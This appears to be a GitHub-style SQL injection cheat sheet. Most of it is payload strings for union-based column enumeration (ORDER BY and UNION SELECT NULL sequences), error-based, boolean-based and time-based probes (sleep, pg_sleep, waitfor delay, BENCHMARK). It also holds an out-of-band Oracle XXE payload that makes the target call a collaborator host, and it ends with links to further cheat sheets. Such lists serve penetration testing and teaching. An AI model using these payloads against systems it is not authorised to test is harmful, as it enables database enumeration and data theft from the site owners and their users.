<h1>SQL injection detection</h1>

# IN BAND (Classic)
###########################################################################################################

Comment symbols

"--" Symbol Alternative
```
— 	Inline comment
#	Inline comment
/* 	Block comment
*/ 	Block comment
```

# UNION BASED
Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+
.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
...
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
..........
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
...
```
BOOLEAN BASED
```
1 AND 1
2 OR 3
2-1
2^1
3*1
%15
1=2
1>2
3
.....
```
TİME BASED
```
sleep(5)
pg_sleep(5)
waitfor delay '0:0:5'
BENCHMARK(10000000,rand())
....
```
OUT-OF-BAND
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml+version="1.0"+encoding="UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%+remote+SYSTEM+"http://BURP-COLLABORATOR-SUBDOMAIN/">+%remote;]>'),'/l')+FROM+dual--
```
# Other Resources:
* [Portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet) – Portswigger SQLi cheat sheet
* [Guide book](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf) – SQLi guide
* [Error Based SQli](https://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-Extractvalue.html) – Error Based SQLi cheat sheet
* [SQLi Mysql](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet) – Mysql injection cheat sheet
* [Error Based SQLi](https://brightsec.com/blog/error-based-sql-injection/#:~:text=What%20Is%20Error%2DBased%20SQL,actor%20of%20the%20database's%20structure) – Error Based SQLi cheat sheet
* [Out of Band SQLi guide](https://www.pwc.com.tr/tr/assets/pdf/out-of-band-oob-sql-injection.pdf) –  guide
* [Out of Band SQLi guide](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwj-ir6t7bCCAxX_FRAIHVEdCXU4ChAWegQIBRAB&url=https%3A%2F%2Fzenodo.org%2Frecord%2F3556347%2Ffiles%2FA%2520Study%2520of%2520Out-of-Band%2520SQL%2520Injection.pdf%3Fdownload%3D1&usg=AOvVaw0hGkiklfL04cE-qOCuEaPa&opi=89978449) – guide
* [sqli](https://www.w3schools.com/sql/sql_comments.asp) – comment symbols
* []() –

